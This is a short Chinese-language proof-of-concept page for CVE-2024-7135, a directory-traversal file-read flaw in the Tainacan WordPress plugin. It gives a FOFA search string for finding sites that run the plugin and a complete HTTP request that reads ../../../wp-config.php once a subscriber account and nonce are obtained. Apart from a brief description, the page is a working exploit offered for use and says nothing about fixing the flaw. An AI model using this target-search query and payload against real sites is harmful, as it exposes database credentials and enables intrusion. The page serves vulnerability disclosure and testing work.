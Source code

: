 # WordPress插件Tainacan存在前台任意文件读取漏洞(CVE-2024-7135)

由于 0.21.7 之前（包括 0.21.7）的所有版本中缺少对“get_file”功能的功能检查，因此适用于 WordPress 的 Tainacan 插件容易受到未经授权的数据访问。该函数还容易受到目录遍历的攻击。这使得经过身份验证的攻击者（具有订阅者级别和更高级别访问权限）能够读取服务器上的任意文件的内容，这些文件可能包含敏感信息。

## fofa

```javascript
"wp-content/plugins/tainacan/"
```

## poc

首先要注册一个普通用户并登录，然后获取一下网站首页的Nonce，之后就可以直接读取了

```javascript
GET /wp-json/tainacan/v2/bg-processes/file?guid=../../../wp-config.php&_wpnonce=替换目标网站nonce HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: no-cache
Connection: keep-alive
Cookie: wordpress_test_cookie=WP%20Cookie%20check; PHPSESSID=57p45m6lctlfttfrsjfpk4fui9; wp_lang=zh_CN; wordpress_logged_in_5c016e8f0f95f039102cbe8366c5c7f3=admin%7C1729391061%7ColYyhIIyEr3yA8JstL99jsKU6rCXsMPR8tQH6nNauzP%7C59e8715eb35b44ed9532e025052b7ef1748b384a9e03a39a9538cd4cd18ffdbe; wp-settings-1=libraryContent%3Dbrowse%26editor%3Dhtml%26mfold%3Do; wp-settings-time-1=1729218262
Host: 127.0.0.1
```

![46a373971b5c0c4c637b280c889d2f91](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410181624561.png)

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410181624425.webp)